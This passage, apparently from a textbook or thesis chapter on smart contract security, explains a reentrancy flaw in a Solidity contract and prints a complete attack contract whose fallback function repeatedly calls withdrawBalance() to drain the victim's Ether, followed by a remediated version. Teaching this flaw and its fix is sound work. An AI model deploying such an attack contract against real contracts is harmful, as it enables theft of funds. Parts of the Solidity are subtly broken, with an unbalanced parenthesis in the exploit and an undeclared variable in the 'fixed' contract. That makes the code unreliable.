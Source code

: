 As shown in Code Listing \ref{listing\:chap6\_reentrancy-eth}, the vulnerable contract `ReentrancyEth` performs a fund transfer using `call.value` in its `withdrawBalance()` function, but only updates the balance afterward. An attacker can deploy an auxiliary attack contract with a `fallback` function that calls `withdrawBalance()` again during the callback phase. By calling `exploitcall()` to deposit and then withdraw, the attacker repeatedly triggers the vulnerable function through reentrancy before the balance is updated, ultimately stealing the entire balance of the `ReentrancyEth` contract until the available gas is exhausted.

```solidity
contract ReentranceExploit {
	address owner; //Attack settings
	ReentrancyEth reentrancy;
	function ReentranceExploit() payable{
		owner = msg.sender;
	}
	function exploitcall(ReentrancyEth reentrancyeth) payable{
		reentrancy = reentrancyeth;
		reentrancyeth.deploy{value: msg.value}());
		reentrancyeth.withdrawBalance();
	}
	function get_money(){
		suicide(owner); //Destroy contract and get assets.
	}
	function() payable{
		reentrancy.withdrawBalance();
	}
}
```

**Remediation:**
Apply the **checks-effects-interactions pattern** by updating internal state before making external calls, and use the `transfer` function for Ether transfers to leverage its built-in gas limit and exception handling. The fixed contract is shown in Code Listing \ref{listing\:chap6\_reentrancy-eth-fixed}.

```solidity
contract ReentrancyEth {
	mapping(address=>uint256) public userBalance;
	function deploy() public payable {
		userBalance[msg.sender] += msg.value;
	}
	function withdrawBalance(){
		// send userBalance[msg.sender] Ether to msg.sender
		// if msg.sender is a contract, it will call its fallback function
		transfervalue = userBalance[msg.sender];
		userBalance[msg.sender] = 0;
		msg.sender.transfer(transfervalue);
	}
	function() public {}
}
```

---
